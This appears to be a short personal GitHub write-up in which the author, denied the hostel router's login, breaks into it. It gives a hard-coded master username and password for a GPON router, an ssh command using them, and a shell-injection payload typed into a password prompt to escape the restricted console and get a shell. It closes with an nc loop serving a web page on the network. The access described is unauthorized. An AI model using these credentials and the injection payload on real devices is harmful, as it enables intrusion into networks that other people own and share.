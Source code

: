 After I was not give username and password of our hostel's router, I began to look for them in internet.

After a good amount of google search , I found a github page mentioning same router as ours and its vulnerabilities.

Here is what I found after some research:

> There is s master username and password through which I can login to admin panel.
username: AdminGPON
password: ALC#FGU

> This master password also allows to make ssh connection to router .ie:
```ssh AdminGPON@<router ip>```

> This would login me as user but wont give shell access. But it is vulnerable to shell injection. so,
user>shell would ask for password2 where I can simply paste:<code>'; /bin/sh; #</code>

And voila, you got shell

> since I have now access to shell, I tried doing things i would do in linux machine like messing around.

> I was able to serve a simple html page using nc command as:
```while true; do cat index.http | nc -l 8000; done```

index.http being:
<code>
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: netcat!

  this is html body

</code>

> I was able to access html page throughout local network as <router-ip>:8000
